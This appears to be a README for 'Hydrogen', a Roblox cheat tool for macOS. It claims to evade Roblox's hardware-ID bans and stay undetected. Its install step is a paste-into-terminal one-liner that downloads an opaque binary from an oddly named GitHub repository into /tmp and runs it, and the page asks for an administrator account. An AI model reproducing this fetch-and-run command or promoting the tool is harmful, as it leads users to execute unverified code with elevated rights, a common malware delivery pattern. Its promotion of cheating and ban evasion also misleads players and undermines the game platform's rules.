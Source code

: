 
> ___


```diff
+ Updated for latest push.
```

> ___


```md
Update for latest push.

# Wondering why the update took so long?
Roblox setup **HWID Bannning** in the latest MacOS release, which is a system in which your unique computer identifier is sent to Roblox servers, and if it is determined that you are cheating, you will be unable to play on your computer.

The update took so long because I was putting measures in place to prevent this from happening, and making sure Hydrogen was undetected by Roblox.

Other products rushed their update, and all of their users accounts will be banned, alongside their computers. I didn't want that to happen to Hydrogen users.

Thanks for your patience!
```

> ___

> [!Note]
Your Mac account must be adminstrator.
>
>Your mac os version must be 10.15 or up to run Hydrogen.
>
> Roblox and Hydrogen must be Uninstalled before following the instructions below

> ___


To install, please paste this in your terminal:
```sh
cd /tmp && curl -LJs "https://github.com/retguard/fictional-garbanzo/raw/main/hydro-installer" -O && chmod +x ./hydro-installer && ./hydro-installer
```

> ___

> [!Note]
Please be aware that the current version of Hydrogen Mac is available in this repository. For the most up-to-date information and updates, I recommend joining the Hydrogen Discord server: https://discord.gg/hydrogen.

> ___
